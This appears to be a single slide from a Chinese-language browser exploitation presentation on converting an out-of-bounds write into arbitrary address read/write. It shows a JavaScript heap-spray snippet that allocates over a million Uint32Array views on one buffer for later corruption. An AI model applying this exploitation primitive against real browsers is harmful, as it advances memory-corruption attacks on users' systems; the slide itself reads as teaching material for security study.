

把越界写转化为AAR/AAW

新建Uint32Array，当漏洞触发后可以用来AAR/AAW

var initBuffer=new ArrayBuffer(0x80);
var attempts=new Array(1250000);
for(var i=0;i<attempts.length;i++){
    attempts[i]=new Uint32Array(initBuffer);
}